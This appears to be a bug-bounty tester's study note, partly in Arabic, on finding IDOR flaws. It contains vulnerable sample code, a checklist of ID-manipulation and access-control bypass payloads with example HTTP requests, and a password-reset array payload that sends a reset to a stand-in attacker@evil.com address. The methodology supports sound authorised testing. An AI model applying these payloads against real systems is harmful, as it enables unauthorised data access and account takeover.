 # Insecure Direct Object References (IDOR)

[#CWE-639](app://obsidian.md/index.html#CWE-639): Authorization Bypass Through User-Controlled Key

### What is the IDOR

#### 1. اي هي الـ vulnerability

(**IDOR**) occur when an application uses user-supplied input to access objects directly ==without proper access control checks==\
**Vulnerable Code:**

```
// Vulnerable code: No access control check
public ActionResult ViewOrder(int orderId)
{
    var order = db.Orders.Find(orderId);
    return View(order);
}
```

### Approach for Testing IDOR

> \[!Tip] Tip لو ريكوست مفيش `IDs` يبقي كدا بيغير نفسه\
> و امتي تنسخ ال **Authorazion** ؟ لو في `Id` في الرسكويت

> \[!Tip] Pro **Pro Tip:**
>
> 1. **Identify Authentication Methods:** Make sure to capture the session cookie, authorization header, or any other form of authentication used in requests.
> 2. **Use Auth-Analyzer in Burp Suite:** Pass these authentication tokens to the Auth-Analyzer Burp extension. This tool will replay all requests with the captured session information.
> 3. **Test with Another User:** Log in as a different user and activate the Auth-Analyzer extension. If you see the `SAME` tag in the extension results, this could indicate an IDOR vulnerability.
> 4. **Manual Verification:** Always manually check the request to confirm whether the vulnerability is genuine.
> 5. **Assess ID Predictability:** Determine if the IDs are predictable. If they aren't, investigate where they might be leaked, such as in other API responses. This could help in further exploitation or verification of the vulnerability

1. **Identify User-Controlled Parameters**
   * [ ] Find and Replace **`IDs`** **in URLs, header and body: /users/01 -> /users/02**(e.g., `user_id`, `file_id`, etc.).
   * [ ] Look for identifiers exposed in client-side code or API responses
     * [ ] _**2.Test Parameter Manipulation**_
   * [ ] **Try** Parameter Pollution: `users=01` **->** `users=01&users=02`
   * [ ] -Add as an array -> `?id[]=1&id[]=2`
   * [ ] Special Characters (Wildcard): `/users/01* or /users/*` **->** `Disclosure of every single user`
   * [ ] Try Older version of api endpoint: /api/v3/users/01 **->** /api/v1/users/02 , etc.....
   * [ ] add extension: `/users/01` \*\*-> `/users/02.json/XML`
   * [ ] Change Request Methods `POST /users/01` **->** `GET, PUT, PATCH, DELETE` etc...
   * [ ] Check if the Referrer or some other Headers are used to validate the `IDs`
   * [ ] \==`GET /users/02` **->** `403 Forbidden`==
   * [ ] \==`Referer: example.com/usser/01`==
   * [ ] \==`GET /users/02` **-> 200** \`OK!
   * [ ] \==`Referer: example.com/usser/02`==
   * [ ] change file type

```json
GET /user_data/2341        -> 401 
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200 
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

Encrypted IDs if application using encrypted IDs , try to decrypt using [**hashes.com**](https://hashes.com/en/decrypt/hash) **or other tools**

* [ ] JSON parameter pollution

```json
{"userid":1234,"userid":2542}
```

```json
[
    {"emailAddress": "Hacktoor@bugcrowdninja.com"},
    {"emailAddress": "0d3026ff11@bugcrowdninja.com"}
]

{"emailAddress":["Hacktoor@bugcrowdninja.com","Hacktoor@bugcrowdninja.com"]}
```

* [ ] Wrap the ID with an array in the body

```json
{"userid":123}   -> 401
{"userid":[123]} -> 200
```

* [ ] wrap the id with a json object

```json
{"userid":123}            -> 401
{"userid":{"userid":123}} -> 200
```

* [ ] If the website using graphql, try to find IDOR using graphql!
* [ ] Try decode the ID, if the ID encoded using md5,base64,etc
* [ ] Path Traversal

```json
POST /users/delete/victim_id          -> 403
POST /users/delete/my_id/..victim_id  -> 200
```

* [ ] change request content-type

```http
Content-Type: application/xml ->
Content-Type: application/json
```

* [ ] Missing Function Level Access Control

```json
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

* \[ ]
* Swap `GUID` `With Numeric` `ID` `or` `email:`\
  [uuidtools](https://www.uuidtools.com/decode)
  * `/users/1b04c123-89f2-241s-b15b-e15641384h25` **->** `/users/02 or /users/a@b.com`
* Try GUIDs such as: !\[\[Pasted image 20250104165239.png]] !\[\[image.avif]]
  * 00000000-0000-0000-0000-000000000000 and 11111111-1111-1111-1111-1111111111111111
  * GUID Enumeration: try to disclose GUIDs using `Google Dorks,Github,wayback,Burp,History`
  * if none of the GUID Enumeration methods work then try: `SignUp, Reset Password,Other endpoints`within the application and analyze the response
  * `403/401` `Bypass:` if server responds back with a `403/401` then try ti use burp intruder and send 50-100 requests having different IDs: Ex: from `/users/01 to /users/100`\
    Bild IDORs L Sometimes information is not directly disclosed, Lookout for endpoint and features that may disclose information such as export files, emails or message alerts.
* Chain IDOR with XSS for Account Takeovers\
  **3.Test with Different User Roles**\
  Use accounts with different privilege levels (e.g., admin, regular user, guest) to test if object references can be used to escalate privileges.\
  **Accounts**
  1. User:[h3cktor+attacker@wearehackerone.com](mailto:h3cktor+attacker@wearehackerone.com)\
     pass:123456789@h3ckt0r
  2. User:[h3cktor+victm@wearehackerone.com](mailto:h3cktor+victm@wearehackerone.com)\
     pass:123456789@h3ckt0r

### Test Cases Scenarios

`GET /api/invoice?id=1000 HTTP/1.1` -> 403 Forbidden

Try to add the id in array With other methods like POST,PUT,DELETE, etc...\
EX:-\
`POST /api/invoice?id=1000 HTTP/1.1`\
`Host: example.com`\
`Content-Type:application/json`\
`{"invoice":"1000","user":"1337"}` -> ==200 OK!==\
try again send\
`GET /api/invoice?id=1000 HTTP/1.1` -> ==200 OK!==

#### IDOR with Geolocation data not stripped from images

Tools Used: exiftool Step1: Use 2 accounts in two browser Download images from here [https://github.com/ianare/exif-samples/tree/master/jpg/gps](https://github.com/ianare/exif-samples/tree/master/jpg/gps)

1. In **==1st==** account in network user can upload files just ==upload the image== their and ==open image link in new tab.==
2. In ==**second**== account do same things and that url like down
3. Change ==1st== account Url parameter value to 2nd acoount Url parameter
4. now image will shows up copy that url again and paste it to image data retrival website

#### Ability to reset password for account

POST [https://hq.breadcrumb.com/api/v1/password\_reset](https://hq.breadcrumb.com/api/v1/password_reset) HTTP/1.1 with body like 1.handel the mail and array

```json
{"email_address":["admin@breadcrumb.com","attacker@evil.com"]}
```

## mitigation

* Always verify that the user is authorized to access or modify the object.
* Use session or JWT tokens to determine the current user instead of relying on user-controlled parameters.
* Avoid Exposing Identifiers in URLs

## Bypassing
